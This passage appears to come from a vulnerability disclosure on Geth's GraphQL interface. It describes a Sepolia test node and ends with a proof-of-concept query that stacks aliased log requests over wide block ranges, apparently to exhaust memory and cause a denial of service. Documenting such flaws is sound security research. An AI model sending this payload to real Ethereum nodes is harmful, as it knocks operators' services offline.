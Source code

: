 ![Exploitation with GraphiQL](6-geth-graphiql.png "GraphQL Console")

The tests were performed on a Sepolia full node, with 16Gb of RAM memory.

The node was synced, Consensus client was prysm. Nothing else was running on the server. Geth version used is the latest stable at the time : **1.12.2-stable-bed84606**.

The [first video](https://drive.google.com/file/d/12CnXF2nHxF9j6IuiaeZUMIJw_EcoKuXy/view?usp=sharing) shows that the node is living his life peacefully and is using 1.1Gb of RAM memory.

Then, at 00:10 the following GraphQL request was sent:

```code
query {
    request1: logs(filter: { fromBlock: 4188927 }) {
      data
      topics
      index
      transaction {
        gas
      }
      account(block: Long) {
        address
      }
    }
    request2: logs(filter: { fromBlock: 4088927 }) {
      data
      topics
      index
      transaction {
        gas
      }
      account(block: Long) {
        address
      }
    }
}
```
